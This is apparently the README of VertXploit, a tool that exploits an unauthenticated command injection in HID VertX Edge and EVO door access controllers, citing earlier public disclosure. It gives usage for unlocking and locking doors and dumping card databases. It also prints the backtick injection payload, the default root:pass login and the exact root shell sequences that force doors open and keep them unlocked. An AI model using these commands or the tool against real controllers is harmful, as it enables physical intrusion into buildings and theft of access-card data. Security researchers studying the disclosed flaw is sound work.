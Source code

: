 # VertXploit
Exploiting HID VertX physical access control systems

## Summary ##
VertXploit is a tool that can be used to exploit HID VertX Edge and EVO access control systems. 

A vulnerability exists within the discoveryd service, which fails to sanitize user data before executing system calls. This allows for arbitrary code execution on HID VertX Edge and EVO access control systems without needing to be authenticated. See the [Command Injection](https://github.com/coldfusion39/VertXploit/blob/master/README.md#command-injection) section for more information.

VertXploit can unlock or lock doors connected to the access control system, download the databases containing all of the provisioned/cached access control cards, and execute arbitrary commands as root on the VertX system, if vulnerable.

If the VertX controller's firmware has been recently updated, vertXploit will attempt to unlock or lock the doors through the web console by using the default, or user supplied, username and password.


## Requirements ##
Run `pip install -r requirements.txt` to install the required python modules.
 * [netifaces](https://bitbucket.org/al45tair/netifaces)
 * [python-nmap](https://bitbucket.org/xael/python-nmap)
 * [requests](https://github.com/kennethreitz/requests)
 * [tabulate](https://bitbucket.org/astanin/python-tabulate)


## VertXploit Usage ##
If the `-i IP` argument is not provided, vertXploit will attempt to discover all VertX access control system on the local network. If a controller is found, vertXploit will continue to execute the user supplied action that was provided with the `-a [discover, unlock, lock, download, dump]` or `-raw` arguments.

Run `./vertXploit.py -h` to show the help menu, or `./vertXploit.py -a <ACTION> -h` to show help for a specific action.


### Discover ###
Run vertXploit with just the `-a discover` argument to discover all VertX access control systems on the local network. To check a specific system and return detailed information, run vertXploit with the `-a discover` argument and an IP address `-i IP`.

Example:

`./vertXploit.py`

`./vertXploit.py -i 10.1.10.5`


### Unlock/Lock ###
In order to unlock or lock doors connected to a VertX access control system, run vertXploit with the `-a unlock` or `-a lock` arguments. If the controller is not vulnerable to the command injection exploit, vertXploit will attempt to unlock or lock the doors through the web console. This method uses the default username and password of 'root:pass', or you can supply your own with the `--username USERNAME` and `--password PASSWORD` arguments.

Example:

`./vertXploit.py -a unlock -i 10.1.10.5`


### Download ###
To download the VertX card databases, run vertXploit with the `-a download` argument. The controller must be vulnerable to the command injection exploit.

Example:

`./vertXploit.py -a download -i 10.1.10.5`


### Dump ###
After downloading the 'IdentDB' and 'AccessDB' databases from a VertX controller, using the the `-a download` argument, run vertXploit `-a dump` to dump the contents of the databases.

Example:

`./vertXploit.py -a dump`


### Raw ###
Arbitrary Linux commands can be executed on a VertX access control system by using the `-raw COMMAND` argument. Depending on the command being sent, the controller may not be able to execute the command because it is not installed (i.e. Python, PERL, ruby, etc). As a simple proof of concept, the Linux 'ping' command seems to work on all VertX models tested.

Example:

`./vertXploit.py -raw 'ping -c 5 10.1.10.39' -i 10.1.10.5`


## Command Injection ##
Typically multiple VertX controllers are installed and housed together. The diagnostic command `command_blink_on` can be sent to a specific controller, which causes the panel's physical "Comm" LED to blink on and off for visual identification. This command usually terminates with the number of times the LED should blink, in the following case, 30 times.

`command_blink_on;042;<MAC_ADDRESS>;30;`

By replacing the number of blinks with a Linux command wrapped in back ticks, the command will be executed on the VertX controller, as root.

``command_blink_on;042;<MAC_ADDRESS>;`ping -c 5 10.1.10.39`;``

To remotely unlock and lock doors connected to the VertX access control system, commands are echoed to `/tmp/a`. This is done because there is a length limit of 22 characters, for each command, that can be sent to the controller. <i>Note: echo is used instead of printf because some older VertX controllers are running BusyBox < 1.0.1 which does not include printf.</i>

Newlines from echoing the commands into the file are then removed by running `tr -d '\n' < /tmp/a > /tmp/b` and intentional newlines are inserted by running `tr '!' '\n' < /tmp/b > /tmp/a`.

The script `/tmp/a` is then executed and both files are deleted. Below shows what commands are being echoed into `/tmp/a` when the unlock and lock commands are sent to the VertX controller.

### Unlock ###
	# Set QUERY_STRING to the door unlock value
	export QUERY_STRING="?ID=0&BoardType=VXXX&Description=Strike&Relay=1&Action=1"

	# Run 'diagnostics_execute.cgi' script
	/mnt/apps/web/cgi-bin/diagnostics_execute.cgi

	# Remove executable permissions to prevent the door from locking
	chmod -x /mnt/apps/web/cgi-bin/diagnostics_execute.cgi

### Lock ###
	# Enable executable permissions
	chmod +x /mnt/apps/web/cgi-bin/diagnostics_execute.cgi

	# Set QUERY_STRING to the door lock value
	export QUERY_STRING="?ID=0&BoardType=VXXX&Description=Strike&Relay=1&Action=0"

	# Run 'diagnostics_execute.cgi' script
	/mnt/apps/web/cgi-bin/diagnostics_execute.cgi


## Resources ##
* [HeadlessZeke](https://github.com/headlesszeke/defcon24-demos) - Command injection vulnerability
* [ZDI](http://www.zerodayinitiative.com/advisories/ZDI-16-223/) - Public disclosure
* [TrendMicro Blog](http://blog.trendmicro.com/let-get-door-remote-root-vulnerability-hid-door-controllers/) - Blog on command injection vulnerability
* [Brad Antoniewicz](http://nosedookie.blogspot.com/2011/07/hid-vertx-v2000-card-number-cache-tool.html) - Parsing card numbers from VertX cache
* [Other Work](http://nosedookie.blogspot.com/2011/07/identifying-and-querying-hid-vertx.html) - VertX discovery commands
